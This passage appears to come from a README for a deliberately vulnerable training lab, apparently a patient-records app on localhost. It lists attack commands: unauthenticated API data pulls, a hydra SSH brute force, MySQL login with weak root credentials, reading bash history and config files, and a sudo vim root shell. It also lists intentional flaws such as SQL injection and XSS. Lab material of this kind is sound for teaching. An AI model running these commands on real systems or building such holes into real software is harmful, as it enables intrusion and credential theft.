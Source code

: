 ### Scenario 3: API Exploitation
```bash
# Unauthenticated patient access
curl http://localhost:3000/api/patients

# Database schema disclosure
curl http://localhost:3000/api/admin/schema

# Configuration leak
curl http://localhost:3000/api/admin/config
```

### Scenario 4: Credential Attacks
```bash
# SSH brute force (if hydra installed)
hydra -l admin -P rockyou.txt ssh://localhost:2222

# MySQL direct access
mysql -h localhost -P 3306 -u root -padmin123 -e "SELECT * FROM users"

# FTP anonymous access
echo "ls" | ftp -n localhost 21
```

### Scenario 5: Lateral Movement
```bash
# After SSH access
ssh admin@localhost -p 2222

# Find credentials
cat /opt/config/app.conf
cat /root/.bash_history

# Privilege escalation
sudo -l
sudo vim -c ':!/bin/bash'
```

---

## 🔒 Security Features (Intentional Vulnerabilities)

### Web Layer
- ✅ SQL Injection in login
- ✅ SQL Injection in search
- ✅ Cross-Site Scripting (XSS)
- ✅ Insecure Direct Object Reference (IDOR)
- ✅ Information Disclosure
- ✅ Weak Session Management

### API Layer
- ✅ Missing Authentication
- ✅ Weak JWT Secret (crackable)
- ✅ SQL Injection via API
- ✅ Verbose Error Messages
- ✅ Configuration Disclosure
- ✅ Arbitrary SQL Execution
